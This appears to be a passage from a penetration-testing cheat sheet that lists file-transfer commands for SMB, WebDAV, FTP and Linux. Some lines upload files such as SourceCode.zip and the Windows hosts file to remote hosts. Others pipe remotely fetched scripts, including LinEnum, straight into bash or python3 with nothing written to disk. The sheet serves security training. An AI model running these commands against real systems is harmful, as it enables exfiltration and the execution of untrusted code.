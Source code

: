 | **SMB Uploads**                                                                                                                                                                                                                                                                                                                                   |                                                                                                                                                                                                |
| `sudo pip install wsgidav cheroot`                                                                                                                                                                                                                                                                                                                | Installing WebDav Python modules                                                                                                                                                               |
| `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`                                                                                                                                                                                                                                                                              | Using the WebDav Python module                                                                                                                                                                 |
| `dir \\192.168.49.128\DavWWWRoot`                                                                                                                                                                                                                                                                                                                 | Connecting to the Webdav Share -CMD                                                                                                                                                            |
| `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\`                                                                                                                                                                                                                                                                         | Uploading Files using SMB                                                                                                                                                                      |
| **FTP Uploads**                                                                                                                                                                                                                                                                                                                                   |                                                                                                                                                                                                |
| `sudo python3 -m pyftpdlib --port 21 --write`                                                                                                                                                                                                                                                                                                     | Starting the upload server                                                                                                                                                                     |
| `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`                                                                                                                                                                                                                                | PowerShell Upload File using ftp                                                                                                                                                               |

### Linux File Transfer Methods

| **Command**                                                                                                | **Description**                                           |
| ---------------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`           | Download a File Using wget                                |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`           | Download a File Using wget                                |
| `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh \| bash`                      | Fileless Download with cURL                               |
| `wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py \| python3` | Fileless Download with wget                               |
|                                                                                                            |                                                           |
| **Download with Bash (/dev/tcp)**                                                                          |                                                           |
| `exec 3<>/dev/tcp/10.10.10.32/80`                                                                          | Connect to the Target Webserver                           |